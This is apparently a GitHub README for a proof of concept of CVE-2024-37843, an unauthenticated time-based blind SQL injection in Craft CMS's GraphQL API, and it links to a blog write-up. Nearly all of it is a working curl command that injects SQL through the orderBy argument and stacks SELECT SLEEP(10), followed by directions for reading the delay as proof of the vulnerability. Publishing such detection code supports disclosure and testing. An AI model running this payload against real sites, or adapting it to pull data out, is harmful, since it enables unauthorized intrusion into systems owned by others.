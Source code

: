 # CVE-2024-37843-POC
POC for CVE-2024-37843. Craft CMS time-based blind SQLi

## Details available in [blog](https://blog.smithsecurity.biz/craft-cms-unauthenticated-sqli-via-graphql) 

## POC

```
curl -X POST '<URL>/api/' -H 'Content-Type:application/json' -d '{"query":"query  IntrospectionQuery  {assets(orderBy: \"`assets`.`volumeId` -- \\\\` \\n \\n LIMIT 5) AS `subquery`\\nINNER JOIN `assets` `assets` ON `assets`.`id` = `subquery`.`elementsId`\\nINNER JOIN `volumefolders` `volumeFolders` ON `volumeFolders`.`id` = `assets`.`folderId`\\nINNER JOIN `elements` `elements` ON `elements`.`id` = `subquery`.`elementsId`\\nINNER JOIN `elements_sites` `elements_sites` ON `elements_sites`.`id` = `subquery`.`elementsSitesId`\\nINNER JOIN `content` `content` ON `content`.`id` = `subquery`.`contentId`\\nORDER BY `assets`.`volumeId`; SELECT SLEEP(10) ; --\", limit: 5){filename}}"}'
```

You can adjust the SLEEP(10) to your needs but if the response to this curl request is >10 the API is vulnerable.
